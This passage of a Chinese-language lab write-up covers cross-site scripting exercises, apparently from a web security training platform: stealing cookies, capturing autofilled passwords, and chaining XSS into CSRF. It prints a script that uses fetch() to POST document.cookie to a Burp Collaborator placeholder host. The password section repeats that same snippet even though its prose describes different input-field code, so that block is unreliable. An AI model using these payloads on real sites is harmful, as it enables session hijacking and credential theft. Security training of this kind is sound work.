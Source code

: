 成功注入

![](https://pic.imgdb.cn/item/6716304cd29ded1a8c36b38f.png)

#### 实验：利用XSS窃取 Cookie

这个实验的网站没有对符号进行限制

这个实验要用到burp的collaborator模块

```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

这里的脚本是因为用户在访问这里的时候会带上cookie，这个脚本只要访问了这个评论的页面就会触发这个脚本，将cookie的信息发送到burp中

#### 实验：利用XSS获取密码

这个实验的网站没有对符号进行限制，但是要获取密码不懂，直接看的解法

这个实验也要用到burp的collaborator模块

```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

具体解释：
两个input框是为了让用户输入账号密码的，但是其实用户不会在这种地方输入，有两种情况，一种是使这个输入框足够正式，能够骗过用户，还有一种是用户在进入这个页面时肯定已经登录成功，遇到这个输入框，浏览器会为了用户方便自动输入
而一旦自动输入，`onchange`属性检测到了改变了长度，就会发送请求，我们将这个网站用改为burp的collaborator，**fetch**将用户信息作为请求体发送过去
`mode: 'no-cors'`是避免浏览器阻止跨域请求

成功获得密码

![](https://pic.imgdb.cn/item/67164b26d29ded1a8c65901f.png)

#### 实验：利用XSS执行CSRF

登录账号，发送修改邮箱的请求，查看请求体，发现要验证cookie和csrf，所以要先利用xss获取这两个，但是发现其实发送这个需改邮箱的请求，只需要csrf令牌就行，因为当用户访问到我的脚本的时候，网站会自动带上cookie，所以不用管cookie

![](https://pic.imgdb.cn/item/6718dd41d29ded1a8cda58a8.png)

回到网站，查看代码，发现csrf的令牌在这个里面是可以看到的
